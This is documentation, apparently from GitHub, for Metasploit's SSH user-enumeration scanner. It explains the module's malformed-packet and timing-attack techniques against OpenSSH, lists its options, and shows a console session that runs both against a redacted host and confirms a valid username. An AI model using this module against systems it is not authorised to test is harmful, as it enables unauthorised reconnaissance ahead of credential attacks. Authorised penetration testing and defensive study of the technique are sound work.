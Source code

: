 ## Introduction

This module uses a malformed packet or timing attack to enumerate users on
an OpenSSH server.

Testing note: invalid users were logged, while valid users were not. YMMV.

## Actions

**Malformed Packet**

The default action sends a malformed (corrupted) `SSH_MSG_USERAUTH_REQUEST`
packet using public key authentication (must be enabled) to enumerate users.

**Timing Attack**

On some versions of OpenSSH under some configurations, OpenSSH will return a
"permission denied" error for an invalid user faster than for a valid user,
creating an opportunity for a timing attack to enumerate users.

## Options

**USERNAME**

Single username to test (username spray).

**USER_FILE**

File containing usernames, one per line.

**THRESHOLD**

Amount of seconds needed before a user is considered found (timing attack only).

**CHECK_FALSE**

Check for false positives (random username).

## Usage

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf auxiliary(scanner/ssh/ssh_enumusers) > set rhosts [redacted]
rhosts => [redacted]
msf auxiliary(scanner/ssh/ssh_enumusers) > echo $'wvu\nbcook' > users
[*] exec: echo $'wvu\nbcook' > users

msf auxiliary(scanner/ssh/ssh_enumusers) > set user_file users
user_file => users
msf auxiliary(scanner/ssh/ssh_enumusers) > set verbose true
verbose => true
msf auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using malformed packet technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_enumusers) > set action Timing Attack
action => Timing Attack
msf auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using timing attack technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_enumusers) > creds
Credentials
===========

host         origin       service       public  private  realm  private_type
----         ------       -------       ------  -------  -----  ------------
[redacted]   [redacted]   22/tcp (ssh)  wvu

msf auxiliary(scanner/ssh/ssh_enumusers) >
```
